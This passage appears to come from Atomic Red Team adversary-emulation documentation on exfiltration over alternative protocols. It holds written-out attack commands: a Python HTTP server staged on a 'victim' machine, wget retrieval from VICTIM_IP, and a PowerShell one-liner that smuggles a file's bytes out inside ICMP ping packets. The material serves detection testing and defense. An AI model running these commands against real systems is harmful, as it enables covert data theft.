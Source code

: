 **Supported Platforms:** macOS, Linux

#### Run it with these steps!

1. Victim System Configuration:

   mkdir /tmp/victim-staging-area
   echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

   cd /tmp/victim-staging-area
   python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

   wget http://VICTIM_IP:1337/victim-file.txt

<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - ICMP

Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default
127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent. | String | 127.0.0.1|

#### Attack Commands: Run with `powershell`!

```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```

<br/>
<br/>

## Atomic Test #5 - Exfiltration Over Alternative Protocol - DNS

Exfiltration of specified file over DNS protocol.

**Supported Platforms:** Linux
